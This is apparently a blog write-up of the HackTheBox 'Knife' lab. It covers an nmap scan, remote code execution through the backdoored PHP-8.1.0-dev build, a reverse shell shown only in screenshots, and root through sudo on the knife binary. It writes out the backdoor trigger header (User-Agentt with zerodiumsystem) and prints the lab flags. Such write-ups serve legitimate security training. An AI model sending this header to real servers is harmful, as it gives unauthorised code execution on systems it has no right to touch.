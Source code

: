 ```yaml
---
layout: /src/layouts/MarkdownPostLayout_HTB.astro
title: Knife HackTheBox Write-Up
author: Adrian Reategui
description: ""
image:
  url: "/images/posts/knife_bg.png"
  alt: ""
pubDate: 2025-06-14
tags:
  ["linux", "PHP-8.1.0-dev"]
languages: []
---
```


### SUMMARY
> This machine has port 22 and port 80 open, when inspecting the webpage on port 80 I couldnt find anything however there was a php version a bit interesting which was **PHP-8.1.0-dev**. When investigating this version of PHP had a backdoor and was vulnerable to RCE trough the use of a custom header in the GET request. Knowing this I was able to obtian a shell to the system as the user James, once inside the victim machine the user James had the privilege to execute the knife command as the user root, this binary allows to obtain a shell as the user root.
### NMAP
- Nmap scan results
	```
	# Nmap 7.95 scan initiated Tue Apr 29 09:48:30 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p22,80 -oN targeted 10.10.10.242
	Nmap scan report for 10.10.10.242
	Host is up (0.27s latency).
	
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
	|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
	|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
	80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	|_http-title:  Emergent Medical Idea
	|_http-server-header: Apache/2.4.41 (Ubuntu)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Tue Apr 29 09:48:53 2025 -- 1 IP address (1 host up) scanned in 23.19 seconds
	```
### FOOTHOLD
- When using whatweb against the webpage it reported us an unusual PHP version
	![alt](/images/posts/knife.webp)
- When investigating about the PHP version I found it was vulnerable to RCE trough the user of a custom header in the request. Read more [HERE](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)
	![alt](/images/posts/knife2.webp)
- Knowing this I decided to send a request using the custom header and I obtained RCE on the victim machine
	```
		User-Agentt": "zerodiumsystem('cmd');
	```
	![alt](/images/posts/knife3.webp)
- I then send a revershell to my kali machine successfully
	![alt](/images/posts/knife4.webp)
### LOCAL
- Once inside the machine I retrieve the user's flag
	```
	james@knife:~$ whoami ; ifconfig ; cat /home/james/user.txt
	james
	ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
	        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
	        inet6 dead:beef::250:56ff:fe94:d0b9  prefixlen 64  scopeid 0x0<global>
	        inet6 fe80::250:56ff:fe94:d0b9  prefixlen 64  scopeid 0x20<link>
	        ether 00:50:56:94:d0:b9  txqueuelen 1000  (Ethernet)
	        RX packets 270403  bytes 28377783 (28.3 MB)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 289943  bytes 45178683 (45.1 MB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
	lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
	        inet 127.0.0.1  netmask 255.0.0.0
	        inet6 ::1  prefixlen 128  scopeid 0x10<host>
	        loop  txqueuelen 1000  (Local Loopback)
	        RX packets 345468  bytes 38279556 (38.2 MB)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 345468  bytes 38279556 (38.2 MB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
	037b2897e8de7db6b74e9917f4edbfd9
	```
### PRIVILEGE ESCALATION
- Enumerating the system I found the user James had the privilege to execute the knife binary on the victim machine
	![alt](/images/posts/knife5.webp)
- Investigating on gtfobins I found this binary can be bypassed to escape the restricted environment obtaining a shell as root
	![alt](/images/posts/knife6.webp)
- I then decided to escape the restrictions obtaining a shell as the user root
	![alt](/images/posts/knife7.webp)
### ROOT
- I retrieved root's user flag
	```
	# whoami ; ifconfig ; cat /root/root.txt
	root
	ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
	        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
	        inet6 dead:beef::250:56ff:fe94:d0b9  prefixlen 64  scopeid 0x0<global>
	        inet6 fe80::250:56ff:fe94:d0b9  prefixlen 64  scopeid 0x20<link>
	        ether 00:50:56:94:d0:b9  txqueuelen 1000  (Ethernet)
	        RX packets 270346  bytes 28373723 (28.3 MB)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 289887  bytes 45173728 (45.1 MB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
	lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
	        inet 127.0.0.1  netmask 255.0.0.0
	        inet6 ::1  prefixlen 128  scopeid 0x10<host>
	        loop  txqueuelen 1000  (Local Loopback)
	        RX packets 344917  bytes 38230753 (38.2 MB)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 344917  bytes 38230753 (38.2 MB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
	6531043c0a489af29cc49d45f83e3d9b
	```

